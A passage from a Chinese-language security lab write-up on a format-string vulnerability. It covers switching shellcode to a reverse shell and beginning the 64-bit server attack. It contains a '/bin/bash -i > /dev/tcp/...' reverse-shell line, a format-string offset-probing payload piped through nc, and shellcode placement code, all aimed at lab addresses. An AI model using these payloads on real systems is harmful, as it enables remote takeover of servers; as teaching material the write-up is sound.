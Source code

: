 测试成功：

![image-20220430142449060](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220430142449060.png)

#### reverse shell

把shellcode修改成reverse shell：

```python
"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
```

测试成功：

![image-20220430143426157](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220430143426157.png)

![image-20220430143526901](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220430143526901.png)



## Task 5: Attacking the 64-bit Server Program

> **Challenges caused by 64-bit Address.** 
>
> 因为之前将地址放在format string前面，在64位的机器中，由于用户空间的地址高两位都是0，当`printf()`遇到地址中的`\0`时停止解析format string。
>
> ![image-20220430165913977](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220430165913977.png)
>

`echo hello | nc 10.9.0.6 9090`：

![image-20220430145620327](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220430145620327.png)

首先构造payload判断偏移，offset=34，说明buffer的起始位置在距离esp第34个偏移处

```terminal
echo AAAAAAAA-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p | nc 10.9.0.6 9090
```

![image-20220430145803224](C:/Users/17166/AppData/Roaming/Typora/typora-user-images/image-20220430145803224.png)

（同样的程序，比起32位机器上偏移少了很多，猜测是因为32位中函数的参数也放在栈上，64位中参数放在寄存器中）



和32位的程序一样，为了运行shellcode，**要把`myprintf`的return address改成shellcode的地址**。

- shellcode还是放在buf的最顶上：

  ```python
  # Put the shellcode somewhere in the payload
  start = 1500-len(shellcode)
  content[start:start + len(shellcode)] = shellcode
  ```

  可以打印出shellcode的起始地址：`0x00007fffffffe907`
